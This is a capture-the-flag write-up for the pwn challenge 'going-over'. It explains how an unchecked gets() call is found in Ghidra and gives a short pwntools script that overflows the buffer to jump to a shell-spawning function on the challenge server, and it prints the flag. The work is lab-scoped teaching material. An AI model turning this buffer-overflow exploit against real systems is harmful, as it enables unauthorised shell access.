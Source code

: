 --------------------------------------------------------------------------------

### going-over - 350 pts <a name="going-over"></a>

**Challenge Description:** My friends said they were going on a trip but I think they ran into some trouble... They sent me these two files before we lost contact (*src.c* and *going-over*).
`nc 0.cloud.chals.io 10197`

**Solution:** My first steps when approaching a new binary are to run `checksec`, `file`, and `strings | grep <flag format>` for some easy wins. While this challenge isn't *that* easy, popping it open in Ghidra makes it pretty apparent what we're working with and it's nearly as easy:

![moarghidra](src/going-over-ghidra1.jpg)

An unchecked `gets` call? BOF all day every day. They also provided a libc source file, so I originally assumed we may be doing GOT overwrite or ROP, but conveniently for us, they were so kind as to leave an unused function laying around that already takes care of our shell call for us:

![somanydergons](src/going-over-ghidra2.jpg)

With that in mind, let's break out Python and pwntools to quickly grab this flag:

```
from pwn import *

context.binary = elf = ELF('./going-over')

p = remote('0.cloud.chals.io', 10197)
p.recvuntil(b"I can't find it!!!")
# p = process("./going-over")

payload = flat(b'A'*20, elf.sym['grab_ledge'])
print("Payload: {}".format(payload))
p.sendline(payload)

print(p.clean())
p.interactive()
p.close()
```
Our flag is: `jctf{ph3w_ju57_1n_71m3}`
